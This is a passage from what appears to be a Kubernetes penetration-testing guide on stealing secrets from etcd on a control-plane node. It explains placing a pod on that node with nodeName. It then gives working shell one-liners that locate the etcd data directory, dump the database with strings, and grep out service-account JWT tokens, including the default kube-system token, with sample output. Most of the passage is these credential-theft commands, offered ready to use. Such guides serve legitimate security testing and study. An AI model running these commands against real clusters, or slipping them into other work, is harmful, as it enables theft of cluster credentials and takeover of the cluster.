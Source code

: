 ```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

control-plane nodes have the **role master** and in **cloud managed clusters you won't be able to run anything in them**.

#### Read secrets from etcd 1

If you can run your pod on a control-plane node using the `nodeName` selector in the pod spec, you might have easy access to the `etcd` database, which contains all of the configuration for the cluster, including all secrets.

Below is a quick and dirty way to grab secrets from `etcd` if it is running on the control-plane node you are on. If you want a more elegant solution that spins up a pod with the `etcd` client utility `etcdctl` and uses the control-plane node's credentials to connect to etcd wherever it is running, check out [this example manifest](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) from @mauilion.

**Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**

```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```

Output:

```bash
data-dir=/var/lib/etcd
```

**View the data in etcd database:**

```bash
strings /var/lib/etcd/member/snap/db | less
```

**Extract the tokens from the database and show the service account name**

```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Same command, but some greps to only return the default token in the kube-system namespace**

```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```

Output:

```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```
